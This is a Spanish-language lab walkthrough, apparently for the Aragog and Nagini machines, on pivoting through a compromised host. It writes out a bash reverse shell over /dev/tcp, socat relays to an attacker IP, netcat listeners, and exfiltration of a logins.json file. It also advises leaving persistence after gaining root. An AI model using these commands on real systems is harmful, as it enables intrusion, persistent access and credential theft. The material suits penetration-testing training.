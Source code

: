 Descartamos este RFI porque no interpretaba php.

Para mandaros una reverse shell el procedimiento es parecido al de antes de querer cargar un recurso de mi máquina. Desde la Nagini sería mandarnos lo típico:  
`bash -c "bash -i >& /dev/tcp/10.10.0.128/1212 0>&1"`. Es decir si manda a la ip más cercana, siempre al nodo más cercano y al puerto que te de la gana. Lo lógico es que el segmento al que te conectes de la Aragog por ssh sea distinto al introducido en la reverse, de ahí que no visualizes directamente la Nagini -solo comentar-.

Desde la Aragog habrá que hacer de nuevo un socat para que la reverse shell llegue hasta mi equipo de atacante.
```sh
./socat TCP-LISTEN:1111,fork TCP:192.168.111.106:443
# Todo lo que llegue al puerto 1111 quiero redirigirlo al puerto 443 de esa IP, la mía atacante.
```
Este proceso se quedará ejecutando, no se podrá cerrar en el fúturo hasta que no tengas acceso de otra manera a la Nagini, como por ejemplo por ssh con proxychain.

Me pongo en escucha desde mi equipo:
```sh
nc -nlvp 443
```
Y ahora ya ejecuaría esa reverse shell - de una manera u otra-  desde la web de la Nagini. La reverse pasaría por la Aragog y luego gracias al socat se rediriría a mi IP por el puerto 443. El tratamiento de la tty es como siempre, que no haya miedo en dejarlo en segundo plano.

Así acabamos este primer túnel. Hemos conseguido acceso a una máquina tercera de la que no teníamos alcanze desde un principio.

## En la Nagini. Hacía el segundo túnel.

Hemos conseguido acceso a la Nagini a través de un túnel pasando por la máquina Aragog.  
Nagini tiene dos interfaces; 10.10.0.129 y 192.168.100.128, la primera es por la que ganamos acceso ya que está en el mismo segmento que la Aragog. Esa segunda interfaz es la que comunicará con otro segmento.

Hay que **rootear** la máquina claro, no se te olvide que el objetivo del hackeo no cambia, es posible que con tanta máquina solo pienses en saltar de una a otra, tienes que rootear los equipos primero, recomendable una vez llegado a root dejar persistencia y luego ya intentar saltar con otro túnel.  
Y siempre que puedas acceder por ssh, te creas una clave pública con el usuario que puedas, cuando llegues a root pues con root, y te conectas:  
```sh
proxychains ssh root@10.10.0.129
```

### Trasnferencia de archivo.

Si quisera pasarme cualquier archivo desde la Nagini a mi equipo recuerda que primero hay que transferirlo al nodo más cercano, es decir, a la Aragog.

Desde la Nagini:
```sh
cat < logins.json > /dev/tcp/10.10.0.128/4646
```
Y desde Aragog:
```sh
socat TCP-LISTEN:4646,fork TCP:192.168.111.106:1214
# Todo lo que me llegue(en Aragog) por el puerto 4646 llevalo hacía mi ip al puerto 1214
```
Desde mi equipo nos pondríamos en escucha:
```sh
nc -nlvp 1214 > logins.json
# No tienes porque poner el mismo nombre, simplemente es el nombre que quieres dar a lo que te llegue.
```
Lanzar los comandos en order inverso, es decir, primero me pongo en escucha y vas subiendo.
